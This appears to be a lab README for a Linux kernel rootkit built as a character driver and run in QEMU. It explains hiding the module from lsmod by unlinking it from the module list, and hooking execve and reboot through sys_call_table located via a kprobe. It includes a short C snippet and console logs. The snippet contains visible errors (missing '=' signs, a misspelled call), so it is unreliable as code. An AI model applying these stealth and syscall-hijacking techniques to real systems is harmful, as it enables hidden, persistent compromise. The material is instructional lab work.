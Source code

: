 # Part2: Rootkit

- Hide rootkit from `lsmod`
- Hook syscall

## Hide/Unhide Rootkit

We create a [character driver](https://linux-kernel-labs.github.io/refs/heads/master/labs/device_drivers.html) and design custom `ioctl` function to perform different actions based on different commands.

### Dependencies

- `linux/fs.h`
    - file_operations
    - alloc_chrdev_region
    - unregister_chrdev_region
- `linux/cdev.h`
    - cdev

### Design

- Access kernel modules list by `THIS_MODULE->list`.
- To hide the rootkit, record `prev place` and delete current place by `list_del()`.
- To unhide the rootkit, call `list_add()` to add current Kernel module after `prev place`.

## Hook syscall

Here we want to intercept these three syscalls:

- execve: record files executed by `execve` to `dmesg`.
- reboot: do not reboot.

### Design

- Search `kallsyms_lookup_name` by `kprobe`.
- Search `sys_call_table` by `kallsyms_lookup_name`.
- Record original syscalls and modify `sys_call_table` with new hooked syscalls.

### Kallsyms_lookup_name

After `kernel 5.7`, it does not export `kallsyms_lookup_name` by default.
We choose to use `kprobe` to search `kallsyms_lookup_name` in kernel.

#### Kprobe

Add the following code to `rootkit.c`:

```c
#include <linux/kprobes.h>
static struct kprobe kp = {
    .symbol_name "kallsyms_lookup_name"
};

typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
kallsyms_lookup_name_t kallsyms_lookup_name;

/* register the kprobe */
register_kprobe(&kp);

/* assign kallsyms_lookup_name symbol to kp.addr */
kallsyms_lookup_name (kallsyms_lookup_name_t) kp.addr;

/* done with the kprobe, so unregister it */
uregister_kprobe(&kp);
```

## Usage

```sh
make all
cp rootkit.ko test_hook test_hide ../shared/

make qemu

...
Ubuntu 22.04 LTS
...
root@ubuntu:~# mount -t 9p -o trans=virtio shared /mnt
root@ubuntu:~# sudo insmod /mnt/rootkit.ko
root@ubuntu:~# sudo lsmod
root@ubuntu:~# dmesg # check major dev number, ex: 247
root@ubuntu:~# sudo mknod /dev/rootkit c 247 0
```

### Hide/Unhide

```sh
root@ubuntu:~# sudo lsmod
Module                  Size  Used by
rootkit                12288  0

root@ubuntu:~# /mnt/test_hide
root@ubuntu:~# sudo lsmod
Module                  Size  Used by
```

### Hook

```sh
root@ubuntu:~# /mnt/test_hook
root@ubuntu:~# dmesg
...
[  368.870260] rootkit: Hook sucessfully.
[  368.875159] rootkit: rootkit_release
[  370.514659] exec /usr/bin/dmesg
```

## Links

- https://xcellerator.github.io/posts/linux_rootkits_05/
- https://linux-kernel-labs.github.io/refs/heads/master/labs/device_drivers.html
- https://xcellerator.github.io/posts/linux_rootkits_01/
- https://xcellerator.github.io/posts/linux_rootkits_02/
- https://xcellerator.github.io/posts/linux_rootkits_11/